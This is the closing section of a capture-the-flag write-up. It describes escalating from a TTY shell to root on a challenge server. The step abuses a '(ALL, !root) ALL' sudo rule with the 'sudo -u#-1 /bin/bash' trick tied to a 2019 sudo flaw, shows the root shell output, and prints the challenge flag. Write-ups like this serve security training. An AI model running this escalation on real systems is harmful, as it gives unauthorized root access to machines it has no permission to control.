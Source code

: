 Nice ! TTY shell access !

### 4.5. Root privilege esacalation

The privilege `(ALL, !root) ALL` reffered for an early vulnerability end 2019 : https://www.exploit-db.com/exploits/47502. This exploit permited to obtain the final root access on the server.

```bash
testaccount@63f5721427e4:~$ sudo -u#-1 /bin/bash
Password:

root@63f5721427e4:/home/testaccount# id
uid=0(root) gid=1001(staffteam) groups=1001(staffteam) 

root@63f5721427e4:/home/testaccount# cat /root/flag.txt 
SANTA{W3ll_d0ne!!You_HAVE_w0n}
```

Tada ! A lovely challenge as usual ! :)

See you next year for the v3.

Th1b4ud